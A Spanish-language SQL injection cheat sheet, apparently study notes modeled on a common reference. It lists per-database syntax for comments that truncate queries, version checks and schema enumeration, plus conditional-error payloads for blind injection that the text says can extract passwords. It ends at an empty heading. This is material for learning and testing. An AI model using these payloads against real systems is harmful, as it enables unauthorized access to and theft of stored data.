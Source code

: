 ## Concatenación de cadenas

Gracias a la concatenación de cadenas puedes concatenar varias cadenas para formar una sola cadena.

Oracle y PostgreSQL:

```mysql
'foo'||'bar'
```

Microsoft:
```mysql
'foo'+'bar'
```

MySQL:

```mysql
'foo' 'bar'
CONCAT('foo','bar') 
```
## Subcadena 

Puede extraer parte de una cadena, desde un desplazamiento específico con una longitud específica. Tenga en cuenta que el índice de compensación está basado en 1. Cada una de las siguientes expresiones devolverá la cadena "bob".

MySQL, PostgreSQL y Microsoft: 

```mysql
SUBSTRING('holabob', 5, 3)
```

Oracle: 

```mysql
SUBSTR('holabob', 5, 3)
```

---
## Comentar

Puede utilizar comentarios para truncar una consulta y eliminar la parte de la consulta original que sigue a su entrada.

Oracle, Microsoft, PostgreSQL y MySQL:

```mysql
--comentario
```

Microsoft, PostgreSQL y MySQL:

```mysql
/*comment*/
```


MySQL:

```mysql
#comentario
-- comentario [Tenga en cuenta el espacio después del doble guión.]
```


---
## Versión de la base de datos

Puede usar esto para ver la versión de la base de datos.

Microsoft y MySQL:

	@@version

Oracle: 

	SELECT banner FROM v$version
	SELECT version FROM v$instance

PostgreSQL

	SELECT version()

---
## Contenidos de las bases de datos

Sirve para listar informacion sobre lo que contiene la base de datos, como tablas, columnas 
### Informacion de tablas 

PostgreSQL, Mysql y Microsoft:

	SELECT * FROM information_schema.tables

Las columnas que contiene esta tabla es: 

1. **table_catalog:** Nombre del catálogo al que pertenece la tabla (puede ser equivalente a la base de datos en algunos sistemas).
2. **table_schema:** Nombre del esquema al que pertenece la tabla.
3. **table_name:** Nombre de la tabla.
4. **table_type:** Tipo de la tabla (puede ser 'BASE TABLE' para tablas normales, 'VIEW' para vistas, etc.).
5. **engine (o similar):** Tipo de motor de almacenamiento utilizado por la tabla.
6. **version:** Versión del motor de almacenamiento.
7. **row_format:** Formato de fila utilizado por la tabla.
8. **table_rows:** Número aproximado de filas en la tabla.
9. **avg_row_length:** Longitud promedio de una fila en la tabla.
10. **data_length:** Tamaño total de los datos de la tabla.
11. **index_length:** Tamaño total de los índices de la tabla.
12. **auto_increment:** Valor que indica si la tabla tiene una columna de autoincremento.

Oracle: 

	SELECT * FROM all_tables

1. **OWNER:** Propietario del objeto de base de datos (usuario).
2. **TABLE_NAME:** Nombre de la tabla.
3. **TABLESPACE_NAME:** Nombre del tablespace en el que se encuentra la tabla.
4. **CLUSTER_NAME:** Nombre del clúster al que pertenece la tabla (si está en un clúster).
5. **IOT_NAME:** Nombre del índice organizado por tabla (si la tabla es una tabla organizada por índices).
6. **STATUS:** Estado de la tabla (VALID, INVALID, etc.).
7. **PCT_FREE:** Porcentaje de espacio libre en cada bloque de datos.
8. **PCT_USED:** Porcentaje de espacio utilizado en cada bloque de datos.
9. **INI_TRANS:** Número inicial de transacciones concurrentes permitidas.
10. **MAX_TRANS:** Número máximo de transacciones concurrentes permitidas.

### Informacion de columnas 

PostgreSQL, Mysql y Microsoft:

	SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

1. **table_catalog:** El nombre del catálogo al que pertenece la tabla.
2. **table_schema:** El nombre del esquema al que pertenece la tabla.
3. **table_name:** El nombre de la tabla.
4. **column_name:** El nombre de la columna.
5. **ordinal_position:** La posición ordinal de la columna en la tabla.
6. **column_default:** El valor predeterminado de la columna.
7. **is_nullable:** Indica si la columna permite valores nulos (YES/NO).
8. **data_type:** El tipo de datos de la columna.
9. **character_maximum_length:** La longitud máxima de caracteres para columnas de tipo de datos de caracteres.
10. **numeric_precision:** La precisión numérica para columnas de tipo de datos numéricos.
11. **numeric_scale:** La escala numérica para columnas de tipo de datos numéricos.
12. **datetime_precision:** La precisión para columnas de tipo de datos de fecha y hora.
13. **character_set_name:** El conjunto de caracteres de la columna.
14. **collation_name:** La configuración de intercalación de la columna.

Oracle:

	SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

1. **OWNER:** Propietario del objeto de base de datos (usuario).
2. **TABLE_NAME:** Nombre de la tabla.
3. **COLUMN_NAME:** Nombre de la columna.
4. **DATA_TYPE:** Tipo de datos de la columna.
5. **DATA_LENGTH:** Longitud máxima de la columna en bytes.
6. **DATA_PRECISION:** Precisión numérica para columnas de tipo numérico.
7. **DATA_SCALE:** Escala numérica para columnas de tipo numérico.
8. **NULLABLE:** Indica si la columna permite valores nulos ( 'Y' o 'N').
9. **COLUMN_ID:** Posición ordinal de la columna en la tabla.
10. **DEFAULT_LENGTH:** Longitud del valor predeterminado de la columna.
11. **DATA_DEFAULT:** Valor predeterminado de la columna.
12. **NUM_DISTINCT:** Número aproximado de valores distintos en la columna.
13. **LOW_VALUE:** Valor más bajo almacenado en la columna.
14. **HIGH_VALUE:** Valor más alto almacenado en la columna.
15. **DENSITY:** Densidad de la columna 

---
## Errores condicionales 

Puede servir para inyecciones ciegas en las cuales las paginasno representan la informacio, por lo tanto se pueden usar errores para que la pagina responda o no a las consultas dependiendo si la condicion se cumple o no, esto puede ayudar a obtener contraseñas enteras.

Oracle:

	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual

Microsoft: 

	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL:

	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)

MySQL

	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

---
## Extraer datos por errores visibles

